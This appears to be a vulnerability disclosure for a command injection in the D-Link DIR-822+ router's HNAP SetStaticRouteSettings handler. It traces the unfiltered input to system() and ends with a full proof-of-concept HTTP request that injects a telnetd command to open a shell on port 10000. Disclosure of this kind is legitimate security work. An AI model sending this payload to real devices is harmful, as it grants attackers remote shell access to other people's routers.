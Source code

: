 ## DIR-822+ Command Injection

### Overview

* Manufacturer's address：http://www.dlink.com.cn/
* Firmware download address ：http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-822%2B

### Affected version

D-Link DIR-822+ V1.0.5 was found to contain a command injection in `SetStaticRouteSettings` function of `prog.cgi`, which allows remote attackers to execute arbitrary commands via shell

![image-20240421163220274](./img/4.png)

### Vulnerability details

Vulnerability occurs in `/HNAP1/SetStaticRouteSettings`. Attackers can control `v17` by setting the `staticroute_list`.

![image-20240421163827190](./img/1.png)

Split this part of data with comma and pass the value to `v10-v13`, which represents the `network address`, `network mask`, `gateway` and `interface`.

![image-20240421163827190](./img/2.png)

Then pass `v10-13` in the` sub_437028` function.

![image-20240421163827190](./img/5.png)

This part of data was directly passed in system without any filtering

![image-20240421163827190](./img/6.png)

Based on the cause of the vulnerability, attackers can arbitrarily execute the command by setting the `staticroute_list`. 

### EXP

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
Content-Length: 50
Accept: application/json
HNAP_AUTH: 5E736BA3725CFF7870DC7A1B6B9512E6 1703160655517
SOAPACTION: "http://purenetworks.com/HNAP1/SetStaticRouteSettings"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/json
Origin: http://192.168.0.1
Referer: http://192.168.0.1
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=akiKeInk; PrivateKey=880D5E30644E82353544D9496CA35B50; timeout=51
Connection: close

{"SetStaticRouteSettings":{"staticroute_list":"`telnetd -l /bin/sh -p 10000 -b 0.0.0.0`,255.255.255.255,192.168.0.1,wan"}}
```

![image-20240421163827190](./img/3.png)